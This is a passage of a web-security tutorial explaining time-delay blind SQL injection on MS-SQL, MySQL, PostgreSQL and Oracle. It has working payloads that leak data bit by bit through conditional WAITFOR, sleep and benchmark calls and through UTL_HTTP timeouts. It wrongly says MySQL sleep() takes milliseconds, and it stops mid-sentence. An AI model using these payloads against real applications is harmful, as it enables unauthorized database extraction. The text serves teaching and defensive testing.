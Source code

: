 ### Using Time Delays
The precise emaning of inducing a suitable time delay depends on the target database being used. MS-SQL contains a built-in `WAITFOR` command, which ca be used to cause a specified time delay. For example, the following query causes a time delay of 5 seconds if the current database user is `sa`:

```
if (select user) = 'sa' waitfor delay '0:0:5'
```

Instead of triggering a different application response when a particular condition is detected, the injected query induces a time delay. For example, the second of these queries causes a time delay, indicating that the first letter of the captured string is A:

```
if ASCII(SUBSTRING('Admin',1,1)) = 64 waitfor delay '0:0:5'
if ASCII(SUBSTRING('Admin',1,1)) = 65 waitfor delay '0:0:5'
```

An additional technique is to break each byte of data into individual bits and retrieve each bit in a single query. The `POWER` command and the bitwise `AND` operator `&` can be used to specify conditions on a bit-by-bit basis. For example, the following query tests the first bit of the first byte of the captured data and pauses if it is 1:

```
if (ASCII(SUBSTRING('Admin',1,1)) & (POWER(2,0))) > 0 waitfor delay '0:0:5'
```

The following query performs the same test on the second bit:

```
if (ASCII(SUBSTRING('Admin',1,1)) & (POWER(2,1))) > 0 waitfor delay '0:0:5'
```

In current versions of MySQL, the sleep function can be used to create a time delay for a specified number of miliseconds:

```
select if(user() like 'root@%', sleep(5000), 'false')
```

In versions of MySQL prior to 5.0.12, instructing the database to perform a processor-intensive action, such as a SHA-1 hash, many times will result in a measurable time delay. For example:

```
select if(user() like 'root@%', benchmark(5000,sha1('test')), 'false')
```

In PostgreSQL, the `PG_SLEEP` function can be used in the same way as the MySQL sleep function.

In Oracle, you can use `UTL_HTTP` to connect to nonexistent server, causing a timeout.For example:

```
SELECT 'a'||Utl_Http.request('http://madeupserver.com') from dual 
...delay...
ORA-29273: HTTP request failed
ORA-06512: at "SYS.UTL_HTTP", line 1556
ORA-12545: Connect failed because target host or object does not exist.
```

You can leverage this behavior to cause a time delay contingent on some condition that you specify. For example, the following query causes a timeout if the default Oracle account `DBSNMP` exists:
